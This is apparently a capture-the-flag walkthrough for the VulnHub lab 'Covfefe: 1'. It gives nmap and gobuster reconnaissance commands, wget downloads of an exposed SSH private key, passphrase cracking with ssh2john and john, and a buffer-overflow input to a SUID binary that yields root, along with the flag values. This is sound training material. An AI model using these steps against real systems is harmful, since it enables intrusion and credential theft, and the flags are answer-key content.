:::::::::::::::::::::::::::::::: page
# Covfefe: 1 {#covfefe-1 .title}

\

## 

## Covfefe: 1

- **[Covfefe: 1]{style="color:#ffbe6f;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/covfefe-1,199/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#ff7800;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.105
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.105
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.105    
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 8080 -sT -sV -A --script=http-enum.nse 192.168.2.105
:::



1.  [Web Enumeration]{style="color:#ff7800;"} :

- IP visit in browser : <http://192.168.2.105>
  <http://192.168.2.105:31337>

<!-- -->

- Directory brute force in port 31337 :

::: codebox
    gobuster dir -u http://192.168.2.105:31337 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
:::



- Visit the endpoints : <http://192.168.2.105:31337/robots.txt>



- Visit the /taxes parameter : <http://192.168.2.105:31337/taxes/>



- Flag1 Found :

::: codebox
    flag1{make_america_great_again}
:::

- Now visit /.ssh endpoints : <http://192.168.2.105:31337/.ssh>



1.  [SSH Access]{style="color:#ff7800;"} :

- Now download the id_rsa, authorized_keys and id_rsa.pub file :

::: codebox
    wget http://192.168.2.105:31337/.ssh/id_rsa
:::

- 

::: codebox
    wget http://192.168.2.105:31337/.ssh/authorized_keys
:::

- 

::: codebox
    wget http://192.168.2.105:31337/.ssh/id_rsa.pub
:::



- Read the all file :

::: codebox
    cat id_rsa
:::

- 

::: codebox
    cat authorized_keys
:::

- 

::: codebox
    cat id_rsa.pub
:::



- Crack the hash password :

::: codebox
    ssh2john id_rsa > id_rsa.hash
:::

- 

::: codebox
    john id_rsa.hash --wordlist=/opt/rockyou.txt
:::



- id_rsa file permission :

::: codebox
    chmod 600 id_rsa
:::

- ssh login :

::: codebox
    ssh -i id_rsa simon@192.168.2.105
:::



1.  [Privilege Escalation]{style="color:#ff7800;"} :

- Check the hidden file :

::: codebox
    ls -al
:::



- Read .bash_history file :

::: codebox
    cat .bash_history
:::

- Find SUID binaries :

::: codebox
    find / -perm -u=s -type f 2>/dev/null
:::



- Check /read_message :

::: codebox
    /usr/local/bin/read_message
:::



- Read the source code from root home directory :

::: codebox
    cat /root/read_message.c
:::



- Flag 2 found :

::: codebox
    flag2{use_the_source_luke}
:::

- Privilege Escalation ( BOF ) :

1.  Navigate the root directory :

::: codebox
    cd /root
:::

1.  Run this command :

::: codebox
    read_message
:::

1.  Input : Simon = auth bypass, 15 x \'a\' = padding, /bin/sh =
    overwrite .

::: codebox
    Simonaaaaaaaaaaaaaaa/bin/sh
:::

1.  Check the list :

::: codebox
    ls
:::

1.  Read the file :

::: codebox
    cat flag.txt
:::



- Flag 3 found :

::: codebox
    flag3{das_bof_meister}
:::
::::::::::::::::::::::::::::::::
